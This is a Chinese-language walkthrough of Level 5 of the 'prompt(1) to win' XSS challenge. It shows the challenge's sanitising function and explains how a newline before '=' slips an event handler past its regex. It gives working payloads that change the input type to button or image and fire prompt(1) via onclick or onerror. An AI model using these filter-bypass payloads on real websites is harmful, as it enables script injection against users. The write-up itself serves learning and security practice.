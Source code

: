 ## [[prompt(1) to win](http://prompt.ml)] [[Level 5 - Input Type](http://prompt.ml/5)] [[解题报告](http://exp-blog.com/2019/03/22/pid-3656/)]

------

## 题目

```javascript
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}
```

## 解题报告

由于标签闭合 `>` 被过滤了，所以 js 只能通过标签属性触发。

其实 `type="text"` 就是个提示，input 标签可根据 type 改变自身为不同的元素类型，从而可以使用该类型的的属性触发 js 。

题目设定的默认类型是 text ，即输入框，这种类型可以触发 js 的属性只有 onfocus ，但是 focus 被过滤了，所以需要使用其他类型。

[查表](http://www.w3school.com.cn/tags/att_input_type.asp) 知道 input 的可用类型如下：

![](http://exp-blog.com/wp-content/uploads/2019/03/56de779e7dfde9213b8fa09c07220327.png)

**从中发现比较容易利用的类型是 button 和 image** 。


------------

假如要利用 button 按钮类型，可以通过 onclick 触发 js，期望结果是这样的 ：

`<input value="exp" type="button" onclick="prompt(1)" type="text">`

亦即 input 为 ： `exp" type="button" onclick="prompt(1)`

但是正则 `on.+?=` 过滤了 `onclick=`，不过这种过滤可以通过换行绕过，即构造 payload 为：

```html
exp" type="button" onclick
="prompt(1)
```

不过似乎是 BUG ，构造的按钮无法点击，导致无法触发 js。

![](http://exp-blog.com/wp-content/uploads/2019/03/e60fd2a05623c3b5f9dfeb22efb6797f.png)

------------

这样只能换个思路，利用 image 图片类型，通过 onerror 触发 js ，构造 payload 如下：

```html
exp" type="image" src=0 onerror
="prompt(1)
```

成功完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/03/491b2c70972afcf3f0c745b8a7fe5638.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
